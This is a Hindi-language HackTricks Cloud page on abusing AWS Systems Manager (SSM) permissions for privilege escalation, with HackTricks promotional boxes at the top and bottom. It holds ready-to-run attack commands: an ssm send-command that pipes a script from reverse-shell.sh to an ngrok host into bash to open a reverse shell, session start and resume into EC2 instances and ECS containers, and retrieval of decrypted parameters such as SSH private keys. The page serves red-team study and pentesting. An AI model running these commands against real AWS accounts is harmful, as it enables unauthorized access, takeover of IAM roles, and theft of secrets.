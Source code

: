 # AWS - SSM Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## SSM

SSM के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

एक हमलावर जिसके पास **`ssm:SendCommand`** अनुमति है, वह Amazon SSM Agent चला रहे **इंस्टेंसेस में कमांड्स निष्पादित कर सकता है** और उसमें चल रहे **IAM Role को समझौता कर सकता है**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**संभावित प्रभाव:** SSM Agents के साथ चल रहे instances में जुड़े EC2 IAM roles तक सीधा privesc।

### `ssm:StartSession`

एक हमलावर जिसके पास **`ssm:StartSession`** की अनुमति है, वह Amazon SSM Agent चला रहे instances में **SSH जैसा session शुरू कर सकता है** और उसमें चल रहे **IAM Role को समझौता कर सकता है।**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
सत्र शुरू करने के लिए आपको **SessionManagerPlugin** स्थापित करना आवश्यक है: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**संभावित प्रभाव:** SSM Agents के साथ चल रहे उदाहरणों से जुड़े EC2 IAM भूमिकाओं के लिए सीधा privesc।

#### ECS के लिए Privesc

जब **ECS tasks** **`ExecuteCommand` सक्षम** के साथ चलते हैं, पर्याप्त अनुमतियों वाले उपयोगकर्ता `ecs execute-command` का उपयोग करके कंटेनर के अंदर **एक कमांड निष्पादित** कर सकते हैं।\
[**दस्तावेज़ीकरण**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) के अनुसार यह SSM Session Manager के साथ आपके उपकरण और लक्ष्य कंटेनर के बीच एक सुरक्षित चैनल बनाकर किया जाता है।\
इसलिए, `ssm:StartSession` के साथ उपयोगकर्ता उस विकल्प को सक्षम करने वाले ECS tasks के अंदर **एक शेल प्राप्त कर सकते हैं** बस चलाकर:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**संभावित प्रभाव:** `ECS` IAM भूमिकाओं के साथ चल रहे कार्यों में `ExecuteCommand` सक्षम होने पर सीधे privesc की संभावना।

### `ssm:ResumeSession`

**`ssm:ResumeSession`** अनुमति वाला हमलावर **एक SSH जैसे सत्र को पुनः आरंभ कर सकता है** जो Amazon SSM Agent के साथ चल रहे instances में एक **विच्छेदित** SSM सत्र स्थिति के साथ है और उसमें चल रहे **IAM Role को समझौता कर सकता है**।
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**संभावित प्रभाव:** SSM Agents के साथ चल रहे इंस्टेंसेस पर लगे EC2 IAM रोल्स तक सीधी privesc जिनके सत्र डिस्कनेक्टेड हैं।

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

उल्लिखित अनुमतियों वाला हमलावर **SSM पैरामीटर्स** की सूची बना पाएगा और उन्हें **स्पष्ट-पाठ में पढ़** सकेगा। इन पैरामीटर्स में आप अक्सर **संवेदनशील जानकारी** जैसे SSH कीज या API कीज पा सकते हैं।
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**संभावित प्रभाव:** पैरामीटर्स के अंदर संवेदनशील जानकारी ढूंढें।

### `ssm:ListCommands`

इस अनुमति के साथ एक हमलावर सभी **कमांड्स** की सूची बना सकता है और आशा करता है कि उनमें **संवेदनशील जानकारी** मिल जाए।
```
aws ssm list-commands
```
**संभावित प्रभाव:** कमांड लाइनों के अंदर संवेदनशील जानकारी खोजें।

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

इन अनुमतियों वाला हमलावर सभी **कमांड्स** की सूची बना सकता है और **आउटपुट पढ़ सकता है** जिससे उम्मीद है कि उसमें **संवेदनशील जानकारी** मिल सकती है।
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**संभावित प्रभाव:** कमांड लाइन्स के आउटपुट में संवेदनशील जानकारी खोजें।

### Codebuild

आप SSM का उपयोग करके एक codebuild प्रोजेक्ट के अंदर भी प्रवेश कर सकते हैं जो बनाया जा रहा है:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपोज़ में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
